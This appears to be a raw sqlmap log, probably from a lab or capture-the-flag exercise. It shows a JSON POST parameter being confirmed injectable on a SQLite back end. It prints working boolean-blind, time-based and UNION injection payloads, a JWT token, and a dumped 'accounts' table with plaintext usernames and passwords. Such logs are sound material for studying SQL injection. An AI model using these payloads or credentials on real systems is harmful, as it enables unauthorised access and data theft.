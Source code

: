 ```bash
[21:53:11] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'SQLite' 
it looks like the back-end DBMS is 'SQLite'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'SQLite' extending provided level (1) and risk (1) values? [Y/n] Y
[21:53:16] [INFO] testing 'Generic inline queries'
[21:53:16] [INFO] testing 'SQLite inline queries'
[21:53:16] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query - comment)'
[21:53:17] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query)'
[21:53:17] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[21:53:23] [INFO] (custom) POST parameter 'JSON #1*' appears to be 'SQLite > 2.0 AND time-based blind (heavy query)' injectable 
[21:53:23] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[21:53:23] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[21:53:23] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[21:53:24] [INFO] target URL appears to have 1 column in query
[21:53:24] [INFO] (custom) POST parameter 'JSON #1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
(custom) POST parameter 'JSON #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 48 HTTP(s) requests:
---
Parameter: JSON #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: {"timeout_seconds":10,"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoic3Ryb25nc2hpdjgiLCJleHAiOjE2OTU0MDc3NzZ9.Ncl10Z9UQJLfvAgYTG6gy3nDVFzEOr33VKI7ROJr09I"}],"data":[{"id":"1 AND 3381=3381"}]}

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: {"timeout_seconds":10,"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoic3Ryb25nc2hpdjgiLCJleHAiOjE2OTU0MDc3NzZ9.Ncl10Z9UQJLfvAgYTG6gy3nDVFzEOr33VKI7ROJr09I"}],"data":[{"id":"1 AND 3005=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))"}]}

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: {"timeout_seconds":10,"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoic3Ryb25nc2hpdjgiLCJleHAiOjE2OTU0MDc3NzZ9.Ncl10Z9UQJLfvAgYTG6gy3nDVFzEOr33VKI7ROJr09I"}],"data":[{"id":"-6426 UNION ALL SELECT CHAR(113,112,118,118,113)||CHAR(79,121,108,120,102,119,65,86,87,89,73,107,71,109,70,99,87,105,122,77,112,70,99,72,68,73,122,100,107,112,70,118,70,68,80,77,70,80,104,114)||CHAR(113,98,112,113,113)-- BXrs"}]}
---
[21:53:28] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[21:53:28] [INFO] sqlmap will dump entries of all tables from all databases now
[21:53:28] [INFO] fetching tables for database: 'SQLite_masterdb'
[21:53:28] [INFO] fetching columns for table 'accounts' 
[21:53:28] [INFO] fetching entries for table 'accounts'
Database: <current>
Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| HereIsYourPassWord1431 | sau      |
+------------------------+----------+

```